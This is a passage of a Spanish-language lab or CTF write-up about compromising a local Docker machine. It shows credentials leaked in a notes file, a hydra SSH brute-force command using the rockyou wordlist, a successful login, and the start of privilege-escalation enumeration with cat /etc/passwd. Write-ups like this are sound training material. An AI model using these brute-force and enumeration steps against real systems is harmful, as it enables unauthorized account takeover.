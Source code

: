 - **Hallazgos**:
```bash
/notes                (Status: 301) [Size: 308] [--> http://172.17.0.2/notes/]
```

### Credenciales Encontradas
Revisando el contenido del archivo: **( Notes.txt )**
```bash
Dear developer,
Please remember to change your credentials "dev:developer123" to something stronger.
I've already warned you that weak passwords can get us compromised.

-Admin
```
- Usuario: `[ dev ]`
- Contraseña: `[ developer123 ]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Tenemos una credencial que usaremos para conectarnos por **ssh**

### Ejecucion del Ataque
```bash
# Comandos para explotación
ssh-keygen -R 172.17.0.2 && ssh dev@172.17.0.2
```

### Intrusion
No funciona parece que se ha cambiado pero realizaremos una ataque de fuerza bruta sobre ese usuario con **hydra**
```bash
hydra -l dev -P /usr/share/wordlists/rockyou.txt -f -t 64 ssh://172.17.0.2
```

Tenemos las credenciales correctas, Ahora nos conectamos por **ssh**
```bash
[22][ssh] host: 172.17.0.2   login: dev   password: computer
```

```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh dev@172.17.0.2
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd
```
